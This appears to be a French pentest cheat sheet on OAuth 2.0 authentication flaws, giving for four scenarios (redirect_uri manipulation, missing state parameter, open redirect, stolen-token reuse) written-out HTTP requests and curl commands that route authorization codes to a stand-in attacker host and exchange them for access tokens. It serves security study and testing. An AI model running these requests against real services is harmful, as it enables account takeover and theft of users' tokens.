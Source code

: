 # Oauth authentification

Voici une synthèse des principaux scénarios d’exploitation des failles d’**authentification OAuth 2.0**, présentée sous forme de liste numérotée et indentée, avec des exemples complets et condensés sur une seule ligne pour les payloads, commandes d’attaque et d’analyse, ainsi qu’une méthodologie détaillée et l’URL PortSwigger complète.

---

**1. Vol ou fuite de code d’autorisation ou de jeton d’accès via manipulation de redirect_uri**  
  1. Payload d’attaque neutre : GET /authorization?client_id=1234&redirect_uri=https://malicious-app.com/collect&response_type=code&scope=openid%20profile&state=xyz HTTP/1.1 Host: oauth-authorization-server.com  
  2. Commande d’attaque : curl "https://oauth-authorization-server.com/authorization?client_id=1234&redirect_uri=https://malicious-app.com/collect&response_type=code&scope=openid%20profile&state=xyz"  
  3. Commande d’analyse : Surveiller les requêtes reçues sur le serveur contrôlé par l’attaquant (ex : tcpdump ou netcat sur malicious-app.com) pour vérifier si le code d’autorisation ou le token y est transmis, puis utiliser ce code pour tenter d’obtenir un access_token via curl -X POST -d "client_id=1234&client_secret=secret&code=CODE_RECU&grant_type=authorization_code&redirect_uri=https://malicious-app.com/collect" https://oauth-authorization-server.com/token  
  4. Élément d’analyse détaillé : Vérifier si le serveur OAuth accepte des redirect_uri non strictement contrôlés, permettant à un attaquant de recevoir des codes ou tokens OAuth valides d’autres utilisateurs, et donc de prendre le contrôle de comptes ou d’accéder à des données sensibles[1][2][8][9].  
  5. Méthodologie détaillée : Manipuler le paramètre redirect_uri lors de la phase d’authentification, rediriger la réponse OAuth vers un domaine contrôlé, surveiller la réception du code ou du token, puis tenter d’échanger ce code contre un access_token ou d’accéder à l’application cible.  
  6. Source : https://portswigger.net/web-security/oauth

**2. Attaque CSRF par absence ou mauvaise gestion du paramètre state**  
  1. Payload d’attaque neutre : GET /authorization?client_id=1234&redirect_uri=https://client-app.com/callback&response_type=code&scope=openid%20profile HTTP/1.1 Host: oauth-authorization-server.com  
  2. Commande d’attaque : curl "https://oauth-authorization-server.com/authorization?client_id=1234&redirect_uri=https://client-app.com/callback&response_type=code&scope=openid%20profile"  
  3. Commande d’analyse : Observer si le paramètre state est absent ou prévisible dans les requêtes, puis tenter de rejouer ou d’intercepter une autorisation OAuth initiée par une victime pour s’authentifier à sa place, par exemple en utilisant Burp Suite pour capturer et rejouer la séquence d’authentification[2][5].  
  4. Élément d’analyse détaillé : Vérifier si l’application ne génère pas de valeur state unique et aléatoire pour chaque requête OAuth, ou ne la valide pas à la réception, ce qui permet à un attaquant de détourner le flux d’authentification ou d’effectuer une attaque CSRF.  
  5. Méthodologie détaillée : Lancer une authentification OAuth sans paramètre state ou avec un state fixe, puis tenter de réutiliser ou d’intercepter la réponse pour valider une session sur un autre compte, en observant si le serveur accepte la séquence sans contrôle.  
  6. Source : https://portswigger.net/web-security/oauth/csrf

**3. Exploitation d’une redirection ouverte dans l’application cliente lors du flux OAuth**  
  1. Payload d’attaque neutre : GET /authorization?client_id=1234&redirect_uri=https://client-app.com/redirect?next=https://malicious-app.com/collect&response_type=code&scope=openid%20profile&state=xyz HTTP/1.1 Host: oauth-authorization-server.com  
  2. Commande d’attaque : curl "https://oauth-authorization-server.com/authorization?client_id=1234&redirect_uri=https://client-app.com/redirect?next=https://malicious-app.com/collect&response_type=code&scope=openid%20profile&state=xyz"  
  3. Commande d’analyse : Surveiller sur le serveur de l’attaquant (malicious-app.com) si un code ou token OAuth est reçu en paramètre, puis utiliser ce code pour obtenir un access_token comme dans l’exemple 1, ou vérifier si la victime est effectivement redirigée vers le domaine malveillant après authentification[8][9].  
  4. Élément d’analyse détaillé : Vérifier si la présence d’une redirection ouverte dans l’application cliente permet à un attaquant d’intercepter le code ou le token OAuth, même si le redirect_uri principal est correctement contrôlé par le serveur OAuth.  
  5. Méthodologie détaillée : Exploiter une vulnérabilité de redirection ouverte sur le domaine client, injecter une URL malveillante dans le paramètre de redirection, puis observer si le flux OAuth permet la fuite du code ou du token vers l’attaquant.  
  6. Source : https://portswigger.net/web-security/oauth/openid

**4. Attaque par réutilisation de token ou de code OAuth volé**  
  1. Payload d’attaque neutre : Utiliser un code ou un access_token intercepté ou volé, par exemple code=HSJKQLPEMBCJEIAKPSNN ou access_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...  
  2. Commande d’attaque : curl -X POST -d "client_id=1234&client_secret=secret&code=HSJKQLPEMBCJEIAKPSNN&grant_type=authorization_code&redirect_uri=https://client-app.com/callback" https://oauth-authorization-server.com/token  
  3. Commande d’analyse : Utiliser le token obtenu pour accéder à une API ou à une ressource protégée, par exemple curl -H "Authorization: Bearer ACCESS_TOKEN" https://client-app.com/api/userinfo et vérifier si l’accès est accordé avec les droits de la victime[1][2][9].  
  4. Élément d’analyse détaillé : Vérifier si un token ou code OAuth volé ou intercepté peut être réutilisé par un attaquant pour accéder à des ressources ou prendre le contrôle d’un compte utilisateur.  
  5. Méthodologie détaillée : Intercepter ou obtenir un code ou un token OAuth valide (via phishing, XSS, logs, etc.), tenter de l’échanger contre un access_token ou de l’utiliser directement pour accéder à l’application, puis vérifier si l’accès est accordé sans contrôle supplémentaire.  
  6. Source : https://portswigger.net/web-security/oauth/exploiting

---

